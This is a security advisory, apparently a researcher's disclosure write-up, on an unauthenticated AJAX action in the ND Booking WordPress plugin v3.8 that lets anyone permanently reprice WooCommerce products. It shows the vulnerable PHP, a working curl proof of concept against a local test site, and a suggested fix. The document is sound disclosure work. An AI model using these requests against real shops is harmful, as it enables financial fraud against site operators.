

# ND Booking (WordPress plugin) ≤ 3.8 — Unauthenticated Arbitrary WooCommerce Price Modification

| | |
|---|---|
| **Target** | ND Booking WordPress plugin, v3.8 (latest at time of testing) |
| **Vulnerability class** | CWE-20 (Improper Input Validation) / Broken Access Control on a state-changing operation |
| **Access required** | None — unauthenticated |
| **Status** | Confirmed, live PoC. **Reported to vendor. No CVE was issued** — the plugin's active install count (~4,000) fell below the minimum threshold both Patchstack (mVDP-only for this vulnerability class) and Wordfence (50,000+ installs for this category) require before they will process it. |

> Responsible disclosure notice: this plugin was tested in an isolated local Docker environment
> (WordPress + WooCommerce), never against a live production site. The vendor was notified before
> this write-up was published. No PoC here targets a real, running installation.

## Summary

ND Booking exposes a fully unauthenticated AJAX action, `nd_booking_woo_php`, that sets the
**permanent, persisted** regular and sale price of a linked WooCommerce product straight from an
unvalidated `GET` parameter, then calls `WC_Product::save()`. This isn't a session-scoped cart
discount — it rewrites the product's price in the database for every future visitor, until an
admin notices and manually fixes it.

```php
// inc/shortcodes/nd_booking_search_result.php
function nd_booking_woo_php() {
    check_ajax_referer( 'nd_booking_woo_nonce', 'nd_booking_woo_security' );
    $nd_booking_trip_price = sanitize_text_field($_GET['nd_booking_trip_price']);
    $nd_booking_rid = sanitize_text_field($_GET['nd_booking_rid']);
    $nd_booking_meta_box_room_woo_product = get_post_meta( $nd_booking_rid, 'nd_booking_meta_box_room_woo_product', true );

    $product = wc_get_product($nd_booking_meta_box_room_woo_product);
    $product->set_regular_price($nd_booking_trip_price);
    $product->set_price($nd_booking_trip_price);
    $product->save();   // <-- persisted immediately, no session scoping
}
add_action( 'wp_ajax_nopriv_nd_booking_woo_php', 'nd_booking_woo_php' );
```

## Why the nonce doesn't help

`check_ajax_referer('nd_booking_woo_nonce', ...)` looks like a safeguard, but the nonce it checks
is generated by the plugin's own **public** search-results shortcode and handed to every anonymous
visitor automatically:

```php
// nd_booking_shortcode_search_results() — runs for anonymous visitors
wp_create_nonce('nd_booking_woo_nonce');   // unconditional, then localized to public JS
```

A WordPress nonce is CSRF protection, not authentication. Here it's being used as if it were the
latter — any visitor who loads the public booking page for a few seconds walks away with a fully
valid token to hit this endpoint.

## Proof of Concept

Environment: WordPress (Docker, `wordpress:latest`) + WooCommerce 11.1.2, ND Booking v3.8.
A WooCommerce product (ID 14, price `$500`) was linked to a room post (ID 15) via the plugin's own
`nd_booking_meta_box_room_woo_product` meta relation.

```bash
# 1. Grab a nonce anonymously from the plugin's own public page — no login, no cookies
$ curl -s "http://localhost:8099/search-results-poc/" | grep nd_booking_ajaxnonce_woo
"nd_booking_ajaxnonce_woo":"c1708bda33"

# 2. Price before the attack
$ wp post meta get 14 _price
500

# 3. Send the unauthenticated price-override request
$ curl -s "http://localhost:8099/wp-admin/admin-ajax.php?action=nd_booking_woo_php&nd_booking_woo_security=c1708bda33&nd_booking_trip_price=0.01&nd_booking_rid=15"

# 4. Price after the attack — permanent, affects every future customer
$ wp post meta get 14 _price
0.01
```




No login, no cookies, no staff privileges — just one anonymous page load to fetch a nonce.

## Impact

- Any anonymous visitor can permanently reprice any bookable product to an arbitrary value (e.g.
  `$0.01`), then complete a real purchase at that price — direct, repeatable financial fraud
  against the site operator.
- The change is global, not scoped to the attacker's session — every other customer is affected
  until an admin manually restores the price.

## Suggested fix

- Never trust a client-supplied price for a state-changing operation. Compute the price
  server-side from the room's own configured pricing metadata.
- Drop the `set_regular_price()` / `save()` calls from this AJAX path entirely. If a temporary
  price override is genuinely needed for the *current* visitor's cart, use WooCommerce's
  `woocommerce_before_calculate_totals` cart-item filter (session-scoped), not a persisted product
  save.

## Why this didn't get a CVE

This finding was reported through Patchstack's bug bounty submission form. Price-tampering /
price-manipulation reports are explicitly **out of scope outside Patchstack's managed VDP (mVDP)
program**, and ND Booking is not currently enrolled in it. Wordfence's program would in principle
cover this class of bug under its general "All Other Vulnerabilities" bucket, but that bucket
requires **≥50,000 active installations** for a Standard-tier researcher — ND Booking sits at
roughly 4,000. Neither rejection is about the technical validity of the bug; both are business
triage thresholds these vendors apply given the volume of reports they receive daily.

The vendor was still notified directly.
